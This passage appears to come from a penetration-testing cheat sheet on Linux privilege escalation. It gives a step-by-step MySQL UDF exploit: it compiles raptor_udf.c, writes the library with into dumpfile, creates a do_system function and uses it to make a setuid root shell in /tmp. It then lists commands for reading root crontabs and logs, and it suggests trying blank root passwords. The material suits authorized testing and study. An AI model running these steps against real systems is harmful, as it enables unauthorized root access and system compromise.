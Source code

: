 ###### MySQL

If a `MySQL` service is running under root privileges and `MySQL` credentials for
an user with FILE privileges are known, local privilege escalation can be
achieved.

Refer to the `File system - Clear text passwords in files` part above for
finding potential MySQL credentials present on the server. A blank password for
the root user account is worth trying as well, especially if the `MySQL`
service is only exposed locally on the server.

The `raptor_udf.c` (https://www.exploit-db.com/raw/1518) dynamic library can
be used to leverage those pre requisites to conduct a local privilege
escalation.


gcc -g -c raptor_udf.c
gcc -g -shared -W1,-soname,raptor_udf.so -o raptor_udf.so raptor_udf.o -lc
mysql -u root -p
mysql> use mysql;
mysql> create table foo(line blob);
# Do not forget to change <PATH>
mysql> insert into foo values(load_file('<PATH>/raptor_udf.so'));
mysql> select * from foo into dumpfile '/usr/lib/raptor_udf.so';
mysql> create function do_system returns integer soname 'raptor_udf.so';
mysql> select * from mysql.func;
* +-----------+-----+---------------+----------+
* | name      | ret | dl            | type     |
* +-----------+-----+---------------+----------+
* | do_system |   2 | raptor_udf.so | function |
* +-----------+-----+---------------+----------+

# Test the privileges obtained
mysql> select do_system('id > /tmp/out; chmod 0755 /tmp/out');

# Refer to General - Shells - Binary - Linux C binary for SUID shell for the source C code for the SUID sh binary.
mysql> select do_system('chown root.root /tmp/suid; chmod 4755 /tmp/suid');

mysql> \! sh
sh$ /tmp/suid
```


### Init.d

### Cron jobs and Scheduled tasks

Look for tasks running as root from script that you can modify:

```bash
crontab -l
crontab -u <USERNAME> -l

ls -lah /var/spool/cron
ls -lahR /var/spool/cron
ls -al /etc/ | grep cron
grep -i CRON /var/log/syslog
cat /etc/cron*
cat /var/spool/cron/crontabs/root
```
